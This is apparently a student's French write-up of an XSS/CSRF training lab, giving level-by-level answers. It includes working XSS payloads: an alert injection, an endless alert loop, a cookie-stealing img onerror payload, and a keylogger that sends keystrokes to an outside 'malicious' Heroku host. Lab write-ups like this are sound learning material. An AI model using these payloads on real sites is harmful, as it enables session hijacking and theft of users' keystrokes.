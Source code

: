 Partie 1 -
==
Level 1
-
https://xss-csrf-tp.herokuapp.com/level/1?page=%3Cimg%20src=%27dzqjidqi.jpg%27%20onerror=alert(%27test%27)%3E%3C/img%3E
<br/><br/>
Level 2
-
1 -
<pre><code><img src='dqd.jpg' onerror= alert('xss') ></img></code></pre> dans title
<br/>
2 -
Le script ne fonctionne ne pas car il a été correctement géré coté serveur.
<br/>
3 -
Les données sont récupérés grâce à un appel de l'API Fetch en JavaScript.
<br/>
4 -
<pre><code><img src='zzz.jpg' onerror=while(true)alert('xss') ></img></code></pre>
<br/>
5 -
<pre><code><img src='zzz.jpg' onerror="var addr = 'https://my-malicious-ws-maisonhaute.herokuapp.com/' + document.cookie; var imgTag = document.createElement('img') ; imgTag.setAttribute('src', addr); document.body.appendChild(imgTag);" ></img></code></pre>
<br/><br/>
Level 3
-
1 - 
On peut ajouter une balise script en rajoutant des majuscules à certaine lettre de la balise tel que

<br/>
2 -
Avec la technique précédente, la balise est bien ajouter mais le code ne s'éxecute pas. Il doit y avoir une autre solution.
Pour le keylogger, il suffirait d'écrire ça dans la balise : 
<pre><code>document.addEventListener('keypress', (event) => {
	fetch('https://my-malicious-ws-maisonhaute.herokuapp.com/', {
		method: 'POST',
		headers: { 'Content-Type': 'application/json' },
		body: JSON.stringify({keypressed: String.fromCharCode( event.which )})
	})
});</code></pre>
<br/><br/>
Partie 2
==
1 - J'ai pas d'amis :p
<br/>
2 - J'ai pas d'amis :p
<br/>
3 - J'ai pas d'amis :p
